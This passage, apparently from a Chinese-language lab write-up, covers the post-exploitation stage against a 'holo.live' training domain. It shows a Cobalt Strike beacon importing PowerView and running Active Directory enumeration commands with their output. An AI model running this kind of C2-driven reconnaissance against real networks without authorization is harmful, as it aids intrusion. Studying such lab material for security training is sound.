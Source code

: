 ```

## Post Exploitation

开启CS

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659594856781.jpg)


拿到一个beacon

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659595176870.jpg)

域信息枚举

引入powervie，获取当前域
```
beacon> powershell-import tools/PowerView.ps1
[*] Tasked beacon to import: /root/CobaltStrike/tools/PowerView.ps1
[+] host called home, sent: 143784 bytes
beacon> powershell Get-Domain
[*] Tasked beacon to run: Get-Domain
[+] host called home, sent: 297 bytes
[+] received output:
#< CLIXML


Forest                  : holo.live
DomainControllers       : {DC-SRV01.holo.live}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : DC-SRV01.holo.live
RidRoleOwner            : DC-SRV01.holo.live
InfrastructureRoleOwner : DC-SRV01.holo.live
Name                    : holo.live

```

获取DC
```
beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
[*] Tasked beacon to run: Get-DomainController | select Forest, Name, OSVersion | fl
[+] host called home, sent: 425 bytes
[+] received output:
#< CLIXML


Forest    : holo.live
Name      : DC-SRV01.holo.live
OSVersion : Windows Server 2019 Datacenter
```

获取域内所有计算机
```
beacon> powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
[*] Tasked beacon to run: Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
[+] host called home, sent: 461 bytes
[+] received output:
#< CLIXML
